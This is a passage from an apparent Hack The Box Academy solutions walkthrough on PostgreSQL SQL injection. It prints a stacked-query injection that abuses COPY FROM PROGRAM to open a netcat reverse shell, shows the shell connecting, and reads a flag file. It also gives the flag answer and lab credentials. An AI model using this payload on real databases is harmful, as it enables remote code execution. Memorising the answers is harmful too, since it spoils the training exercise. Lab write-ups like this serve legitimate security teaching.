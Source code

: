 Subsequently, students need to write a [Netcat OpenBsd](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd) reverse-shell and then run it:

Code: sql

```sql
Life', 'Short', 'Art@art.art', 'Long'); CREATE TABLE dbBackups(backup TEXT); COPY dbBackups FROM PROGRAM 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc PWNIP PWNPO >/tmp/f';SELECT * FROM dbBackups; DROP TABLE dbBackups; --
```

![[HTB Solutions/CWEE/z. images/448b1ae898c837d2cddf2ae6f5af77a0_MD5.jpg]]

When checking the `nc` listener, students will notice that the reverse shell connection has been established successfully:

```
Ncat: Connection from 10.129.152.182.
Ncat: Connection from 10.129.152.182:55642.
/bin/sh: 0: can't access tty; job control turned off
$ 
```

At last, students need to print out the contents of the file `/var/lib/postgresql/13/main/flag.txt`, to attain the flag `HTB{f9141e0c21d27c56cfdb812960d4e7c3}`:

Code: shell

```shell
cat /var/lib/postgresql/13/main/flag.txt
```

```
$ cat /var/lib/postgresql/13/main/flag.txt

HTB{f9141e0c21d27c56cfdb812960d4e7c3}
```

Answer: `HTB{f9141e0c21d27c56cfdb812960d4e7c3}`

# Skills Assessment

## Question 1

### "Identify and exploit the unauthenticated SQL injection to log in. What is the value of the flag on the dashboard?"

After spawning the target machine of any previous section (and not the one of the Skills Assessment section) except for `Introduction to PostgreSQL`, students need to download the file `/opt/Pass2-1.0.3-SNAPSHOT.jar` from it using `scp` with the credentials `student:academy.hackthebox.com`, clone a mirror of [Fernflower](https://github.com/fesh0r/fernflower.git), install `openjdk-17-jdk` and set it as the default `JDK`, build `Fernflower` and use it to decompile `Pass2-1.0.3-SNAPSHOT.jar`, extract all the source `.java` files, and then use `code` to analyze the source code:

Code: shell
